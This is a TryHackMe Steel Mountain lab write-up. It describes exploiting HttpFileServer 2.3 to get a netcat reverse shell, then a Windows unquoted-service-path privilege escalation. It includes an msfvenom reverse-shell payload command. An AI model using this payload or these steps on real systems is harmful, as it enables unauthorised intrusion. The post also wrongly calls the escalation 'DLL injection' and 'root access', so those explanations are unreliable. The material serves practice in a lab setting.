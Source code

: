 ```yaml
---
title: Steel Mountains
author: X310t0x01
date: 2024-01-13 11:33:00 +0800
categories: [TryHackMe, PrivEsc, Windows, Mac OS]
tags: [TryHackMe]
pin: false
math: true
mermaid: true
---
```


#### TryHackMe: Steel Mountain WriteUp (MAC OS)

The TryHackMe Steel Mountain challenge is a hands-on cybersecurity task, simulating a real-world penetration test against a Windows system. Participants engage in stages like reconnaissance, exploitation, and privilege escalation using tools like Nmap, Metasploit, and PowerShell scripts. The challenge focuses on exploiting vulnerabilities such as unquoted service paths and misconfigurations in HTTP File Server.

![Mr.Robot Wallpaer](https://mrwallpaper.com/images/hd/mr-robot-elliot-glitch-art-background-gb7xxlkeskgsf6be.jpg "MR.Robot Wallpaper")

# Port Enumeration Process
The port scanning process generates output that provides information about several open ports on a target system, including possible software versions associated with each port. During this scanning operation, I prefer to meticulously review the results, selecting those that I believe will be most beneficial for further investigation. Typically, I prioritize port 80, which is commonly used for HTTP, and its alternate, port 8080, by actively exploring their accessibility and response.

![PortScan](/Images/PortScan.png "PortScan")


However, for a comprehensive assessment, it's essential to extend the examination beyond HTTP-related ports. One critical aspect is to verify the status of SMB (Server Message Block) on port 445, which can yield a wealth of information if it's not adequately secured. Inadequate protection can potentially expose sensitive data and system vulnerabilities, making thorough scrutiny imperative for effective security assessment and potential mitigation.

![URLVuln](/Images/8080.png "URLVuln")

This situation has piqued our interest. The application identified is HttpFileServer 2.3. Initial login attempts with common combinations like 'admin:admin' and 'admin:password' have proven unsuccessful. However, a Google search reveals a known exploit for this version, utilizing a local HTTP server to deliver and execute netcat on the target system. The discovery of this exploit offers a new perspective. While conventional access attempts haven't worked, this exploit hints at a potential vulnerability in HttpFileServer 2.3 that we can explore. Though we haven't yet achieved access through regular means, the existence of this exploit presents an intriguing alternative. We should consider a deeper dive into its mechanics, assess its viability, and see if it can bypass the current access limitations. This revelation certainly adds an interesting dimension to our investigation

# Initial Breach Point in Security

![Script](/Images/Script.png "Script")

As per the exploit's instructions, we must host Netcat using an HTTP server and set up a Netcat listener for the reverse shell. I duplicated Netcat, placing it in a designated Desktop directory, while also configuring a Netcat listener in a separate terminal to capture the incoming reverse shell. To deliver the duplicated Netcat utility to the target system, I employed a Python Simple HTTP server, creating a discreet channel for secure transmission. This approach ensures controlled deployment, minimizing the risk of detection. Following these precise steps aligns with the exploit's methodology, enhancing our control and reducing the likelihood of detection, thereby increasing our chances of success.

![ncStep](/Images/ncStep.png "ncStep")

Based on the provided image, it's evident that during the initial execution of the exploit, we observed a GET request for downloading the Netcat executable. In case this step encounters issues, ensure that the HTTP server is operated from the directory where Netcat is located.

![UserLevel](/Images/UserLevel.png "UserLevel")

Executing the exploit using identical syntax results in obtaining a user-level shell attributed to the user 'bill.' This consistent outcome indicates the reliability of the exploit in providing access under these conditions

# Host Discovery

In my capacity as 'bill,' I encountered an obstacle while attempting to access the Administrators directory, resulting in an 'Access denied' message. Despite this setback, my investigation led me to discover the user flag within bill's user profile directories.

Following the recommended approach outlined in the walkthrough, I opted to leverage PowerShell to retrieve a Windows Privilege Escalation enumeration script known as 'winPEAS.' This script is instrumental in identifying potential misconfigurations within a specific service. To acquire 'winPEAS,' I employed a PowerShell one-liner, which also facilitated the retrieval of 'accesschk.exe.' This dual approach was employed to scrutinize the 'winPEAS' output for potential vulnerabilities. During my evaluation, I applied these tools to bill's Desktop directory, which exhibited the desired functionality as it was writable, allowing me to proceed with the enumeration process effectively.

![GetPeas](/Images/GetPeas.png "GetPeas")

Using 'winPEAS -h' reveals additional paths to pinpoint specific misconfigurations. Given the vulnerability identified in an unquoted service path in the walkthrough, I opted to focus on the 'servicesinfo' option.

![WinPeasC](/Images/WinPeasC.png "WinPeasC")

Multiple unquoted path services exist, but permission limitations may hinder editing or writing. To address this, accesschk.exe is a valuable resource. The results indicate that bill has control (pause, start, stop) over AdvancedSystemCareService9. This is crucial because even if we find an exploitable unquoted service path, the service's permissions can limit its usefulness. If the user lacks start/stop permissions, privilege escalation may be ineffective.

The AdvancedSystemCareService9 checks the unquoted path 'C:\Program Files (x86)\IObit\Advanced SystemCare' for executables. Since the path lacks quotes, Windows may misinterpret it as 'C:\Program.exe' or 'C:\Program Files (x86)\IObit\ASCService.exe.

To exploit this, we can create an executable named 'ASCService.exe' using 'msfvenom' and place it in 'C:\Program Files (x86)\IObit' since bill has write access there. Here's the command for that:

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<port> -f exe -e x86/shikata_ga_nai -o ASCService.exe
```
We've got all the pieces in place and have identified a potential Unquoted Service Path vulnerability. User 'bill' has control over the service, and 'bill' also has the ability to write to the binary path. Our 'Advanced.exe' reverse shell is now in the location where Windows will look when the service starts, and we've confirmed that the service runs with SYSTEM privileges.

![copyS](/Images/copyS.png "copyS")


After successfully delivering the payload to the target machine, our next objective is to execute a DLL injection on the system. In order to achieve this, we will replace the original service for the AdvanceSystemCareService9 with the one that has the service of ASCService.exe. This will enable us to carry out the necessary actions to complete our task.

![stop](/Images/stop.png "stop")


Following the completion of a specific task, I proceeded to stop the service that was running on the target machine. This provided me with an opportunity to restart the service, which enabled me to perform a DLL injection. By executing this technique, I was able to insert a custom DLL into the memory space of the target process and execute the code that I needed to accomplish my objective.

![start](/Images/start.png "start")

When I initially started the service, the payload we were using contained a DLL injection. This injection granted me root access to the machine on which I was working. As a result, I was able to obtain the root flag for the Steel Mountain TryHackMe box. It was a successful attempt that allowed me to gain control over the machine.

![root](/Images/root.png "root")


